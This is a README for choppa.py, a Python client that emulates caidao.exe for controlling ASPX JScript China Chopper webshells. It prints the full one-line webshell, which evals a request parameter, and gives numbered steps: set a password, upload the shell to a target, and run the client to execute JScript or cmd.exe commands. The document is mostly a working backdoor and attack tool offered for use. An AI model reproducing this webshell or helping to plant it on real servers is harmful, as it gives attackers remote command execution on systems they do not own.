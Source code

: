 
# choppa.py

choppa.py is a python implementation of caidao.exe, which includes minimal implementations
of caidao.exe's features exclusively for ASPX Jscript variants of China Chopper webshells such as:

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["password"],"unsafe");}</script>
```

Emulated caidao.exe features include:
- inline Jscript execution
- Virtual terminal emulation with Jscript and cmd.exe /c

choppa.py is not fully featured, and does not include file upload/download or support
for other webshell types referenced in caidao.exe such as ASP and PHP. These features are subject 
to future implementations.

#########################
INSTRUCTIONS:
#########################
1. Change webshell password value

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["Nonqjbexznaoynzrfuvfgbbyf"],"unsafe");}</script>
```

2. Upload ASPX webshell on target
3. python choppa.py -p Nonqjbexznaoynzrfuvfgbbyf -m MODE
